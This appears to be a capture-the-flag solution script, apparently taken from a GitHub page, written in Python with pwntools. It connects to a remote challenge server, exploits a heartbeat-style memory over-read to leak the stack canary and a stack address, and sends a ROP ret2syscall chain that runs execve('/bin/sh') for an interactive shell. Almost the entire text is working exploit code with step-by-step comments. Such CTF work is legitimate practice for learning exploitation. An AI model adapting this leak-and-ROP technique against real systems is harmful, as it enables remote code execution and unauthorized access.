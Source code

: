 ```python
from pwn import *

# Binary filename
exe = './challenge.bin'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Open the process
io = remote('34.123.210.162','20233')

# Wait to get the waiting heart beat request message then send our text '1000:DeadBeef'
io.sendlineafter(b'Waiting for heart beat request...\n',b"1000:DeadBeef")
io.recvuntil(b'Sending heart beat response...\n')

# Getting the leaked data and the [:-35] is to remove this text '\nWaiting for heart beat request...\n' from the result
Leaked_raw = io.recvuntil(b'\nWaiting for heart beat request...\n')[:-35]

# Format the leaked date to be in the form of little endian for x64 arch this will give us list of 8 bytes for each element
Leaked_list = list(map(hex, unpack_many(Leaked_raw, 64, endian='little', sign=False)))

# Since the canary is start form byte number 856 and we have list of 8 bytes for each element so now the canary 
# Will be the element number (856/8 = 107)
Canary = int(Leaked_list[107], 16)
log.info("The Canary Value : " + hex(Canary))

# The DeadBeef string address is the same address which the /bin/sh string will be 
# Because in the next creation of payload we will set /bin/sh directly after the 0: to be like this 0:/bin/sh
# So it will overwrite the DeadBeef in the same stack address
# The 912 is the offset which we calculated before
BinSh_Address = int(Leaked_list[46], 16) - 912
log.info("The (DeadBeef or /bin/sh) at address : " + hex(BinSh_Address))

# Using ROP to get our gadget to achieve ret2syscall
rop = ROP(elf)
pop_rax = rop.find_gadget(['pop rax', 'ret']).address
pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
pop_rsi = rop.find_gadget(['pop rsi', 'ret']).address
pop_rdx = rop.find_gadget(['pop rdx', 'ret']).address
syscall = rop.find_gadget(['syscall', 'ret']).address


# The Final Payload
payload = flat([
    b'/bin/sh\x00',                 # /bin/sh string which needs to be passed to syscall
    b'A' * 1024,                    # Junk
    Canary,                         # Canary value to bypass canary protection
    b'A' * 8 ,                      # Junk
    pop_rax, 59,                    # Set RAX reg to 59
    pop_rdi , BinSh_Address ,       # Set RDI reg to /bin/sh address
    pop_rsi , 0 ,                   # Set RSI reg to 0
    pop_rdx, 0 ,                    # Set RDX reg to 0
    syscall                         # Call Syscall
])


io.sendline( b"0:" + payload )
io.recvuntil(b"Sending heart beat response...")
io.interactive()
```